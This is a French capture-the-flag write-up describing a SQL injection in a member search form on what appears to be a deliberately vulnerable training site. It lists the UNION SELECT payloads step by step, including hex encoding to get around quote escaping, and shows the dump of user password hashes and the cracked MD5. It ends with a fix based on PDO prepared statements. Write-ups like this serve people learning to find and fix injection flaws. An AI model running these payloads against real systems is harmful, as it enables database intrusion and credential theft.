








FLAG 1 (search_member_sql_inj_error_based)
---

# 1. Explication

## **1.1. Ce qui se passe**

Le site web permet de chercher un membre en donnant son numéro d'identifiant. 

Normalement, le site devrait juste prendre ce numéro et aller chercher la fiche correspondante dans la base de données.

## **1.2. La faille**

Au lieu de donner juste un numéro, j’ai donné un numéro suivi d'une **nouvelle commande**. 

Le site n'a pas vérifié ce que j’ai écrit et a transmis ma commande directement à la base de données.

## **1.3. L'impact**

J’ai pu voler des informations confidentielles (mots de passe, emails) auxquelles je n'aurai jamais dû avoir accès.

# 2. Demonstration

Dans la page membre se trouve un champs de recherche :


Je tente de rechercher le nombre de colonne :

```bash
1 UNION SELECT 1, 2
```




Ici il n’y a que deux colonne la requête avec 3 colonnes échoue

```php
1 UNION SELECT 1, 2, 3
```



---

Ensuite je cherche à obtenir le nom de la base de donnée :

```bash
1 UNION SELECT 1, database() #
```



---

Comme j’ai obtenue le nom de la base de données et qu’elle me répond facilement, je peux chercher le nom de toute les tables :

```bash
1 UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() #
```



Ce qui m’intéresse ici ce sont les logins des utilisateurs avec leur mot de passe, je cherche donc à lister les éléments de la tables “users” :

```bash
1 UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' #
```


**→ Analyse de l'erreur :**

Le serveur a ajouté des antislashes (`\`) devant les apostrophes. Ça veut dire que l’entrée est filtrée (probablement par une fonction comme `addslashes()` ou `mysql_real_escape_string()`).

Au lieu d'interpréter `'users'` comme une chaîne de caractères délimitée, la base de données reçoit `\'users\'`, ce qui casse la syntaxe SQL.

**→ La Solution : L'encodage Hexadécimal**

Pour contourner ce filtre qui bloque les apostrophes `'`, il faut écrire le nom de la table **`users`** sans utiliser de guillemets. En SQL, on peut remplacer n'importe quelle chaîne par son équivalent hexadécimal.

Le mot **`users`** en hexadécimal donne : `7573657273` (u=75, s=73, e=65, r=72, s=73).
En SQL, on l'écrit avec `0x` devant : **`0x7573657273`**.

```bash
1 UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name=0x7573657273 #
```



Je peux alors voir toutes les colonnes de la tables users et je pense que les mots de passes doivent être dans la colonne “countersign” car quand on cherche sur Google, on tombe sur des références à des signatures, ce qui pourrait correspondre à un mot de passe ou leur hash (comme pour les signatures électroniques)

```bash
1 UNION SELECT 1, group_concat(user_id, 0x3a, first_name, 0x3a, countersign) FROM users #
```



J’obtient un Hash :

<aside>
👉

5ff9d0165b4f92b14994e5c685cdce28
FortyTwo (converti du MD5)

</aside>



Ce hash me donne FortyTwo (42), est pour obtenir le Flag je récupère son hash en SHA256 :

```bash
echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```



<aside>
✅

FLAG 1 TROUVÉ

</aside>

# 3. Remediation

## 3.1. Le Problème : Code Vulnérable

Actuellement le code PHP prend ce que l’on tape et le met directement dans la requête

## 3.2. La Solution : Requêtes Préparées

Au lieu de concaténer, il faut utiliser des placeholders. 

La base de données comprendra alors que l'entrée de l'utilisateur est une simple donnée (du texte ou un chiffre) et non du code exécutable.

**Correctif :**

```php
$id = $_GET['id'];

// 1. On prépare la requête avec un marqueur '?' ou ':id'
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');

// 2. On lie la valeur séparément. Le moteur SQL va neutraliser toute injection.
$stmt->bindParam(':id', $id, PDO::PARAM_INT);

// 3. On exécute
$stmt->execute();
$result = $stmt->fetchAll();
```
